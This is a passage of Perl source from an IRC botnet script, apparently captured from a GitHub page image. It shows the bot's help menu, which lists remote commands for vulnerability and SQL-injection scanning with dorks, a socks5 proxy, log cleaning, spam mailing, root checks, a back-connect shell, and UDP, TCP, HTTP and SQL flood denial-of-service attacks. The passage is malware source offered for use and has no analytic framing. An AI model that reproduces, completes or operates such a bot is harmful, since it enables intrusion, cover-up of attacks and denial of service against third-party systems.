             sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[Hacking Based]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3multiscan <vuln> <dork>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3socks5"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3sql <vuln> <dork>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3portscan <ip>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3logcleaner"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3sendmail <subject> <sender> <recipient> <message>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3system"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3cleartmp"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3rootable"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3nmap <ip> <beginport> <endport>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3back <ip><port>");    

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3linuxhelp"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3cd tmp:. | for example"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[Advisory/New Based]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3packetstorm"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3milw0rm"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[DDos Based]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3udpflood <host> <packet size> <time>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3udp <host> <port> <packet size> <time>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3tcpflood <host> <port> <packet size> <time>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3httpflood <host> <time>");  

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3sqlflood <host> <time>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[IRC Based]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3killme");    

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3join #channel");    

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3part #channel"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3reset"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3voice <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3owner <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3deowner <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3devoice <who> "); 
